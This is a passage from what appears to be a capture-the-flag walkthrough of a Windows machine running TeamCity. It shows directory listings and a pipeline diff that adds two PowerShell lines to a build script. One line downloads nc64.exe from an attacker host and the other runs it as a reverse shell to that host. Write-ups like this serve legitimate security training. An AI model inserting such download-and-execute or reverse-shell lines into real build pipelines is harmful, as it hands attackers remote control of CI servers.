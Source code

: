

    PS C:\Users> dir

        Directory: C:\Users

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        6/28/2022   8:14 PM                Administrator
    d-----        6/29/2022   9:34 PM                e.black
    d-r---        6/28/2022   8:14 PM                Public
    d-----        11/9/2022   9:42 AM                svc_teamcity



`user.txt` must be with e.black.

#### TeamCity

There's not much of interesting the `C:\TeamCity` directory. However, in
looking around, there's a `JetBrains\TeamCity` directory in
`C:\ProgramData`:



    PS C:\programdata\JetBrains\TeamCity> ls

        Directory: C:\programdata\JetBrains\TeamCity

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       11/20/2023   9:15 PM                config
    d-----        11/3/2022   3:08 PM                lib
    d-----        11/3/2022   3:09 PM                plugins
    d-----       11/20/2023   9:15 PM                system



In the `system` folder there's a folder named `changes`:



    PS C:\programdata\JetBrains\TeamCity\system\changes> ls

        Directory: C:\programdata\JetBrains\TeamCity\system\changes

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        11/8/2022   2:18 PM           1707 101.changes.diff
    -a----       11/20/2023   8:59 PM            323 201.changes.diff
    -a----       11/20/2023   8:59 PM            323 202.changes.diff
    -a----       11/20/2023   8:59 PM            323 203.changes.diff
    -a----       11/20/2023   9:13 PM            323 204.changes.diff



These are changes to the repo. For example, `204.changes.diff` (and all
the other recently ones) is the changes that give me a shell:



    PS C:\programdata\JetBrains\TeamCity\system\changes> type 204.changes.diff
    diff --git a/hello_world.ps1 b/hello_world.ps1
    index 09724d2..6cd6d20 100755
    --- a/hello_world.ps1
    +++ b/hello_world.ps1
    @@ -1,2 +1,5 @@
     #Simple repo test for Teamcity pipeline
     write-host "Hello, World!"
    +
    +iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    +\ProgramData\nc64.exe -e powershell 10.10.14.6 443
